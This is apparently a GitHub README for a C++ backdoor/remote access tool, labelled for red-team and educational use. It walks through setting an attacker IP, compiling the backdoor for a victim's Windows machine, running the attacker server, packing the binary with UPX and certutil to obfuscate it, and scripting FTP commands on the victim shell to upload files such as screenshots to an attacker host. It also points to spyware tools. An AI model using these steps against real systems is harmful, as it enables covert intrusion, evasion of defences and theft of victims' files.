 # C++ Backdoor/RAT </br>
**by Pol Galvez** </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes

![alt text](https://raw.githubusercontent.com/PolGs/C-EthicalRAT/main/image_2021-07-30_221130.png)
## How to Use</br>
-> **Configure Attacker IP:(backdoor.c - line 19)**
```sh
char *ServIP  = "192.168.174.129";//Server IP
```
-> **Configure Attacker IP:(server.c -line 90)**
```sh
server_address.sin_addr.s_addr = inet_addr("192.168.174.129");//Server address
```
-> **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/bin/client/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```

->**Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/bin/server/server.exe
```
-> **Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Screenshot:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)

thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Playlist Creating similar RAT<br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs
https://youtu.be/6Dc8i1NQhCM<br>
Easy metasploit spyware:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd command to take screenshots
nircmd.exe savescreenshot screen1.png

## UPX to Obfuscate executable \n
UPX: https://upx.github.io
```sh
upx program.exe
```
You can also use certutil to encode executable
```sh
certutil -encode test.exe test.txt
```
```sh
certutil -decode test.txt test.exe
```
## ftp echos to Download files change put for get to Upload (This is done client side on the Shell)
```sh
echo open 192.168.1.171 >> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye
```
## License
Open Source<br>
**Free Software, Hell Yeah!**
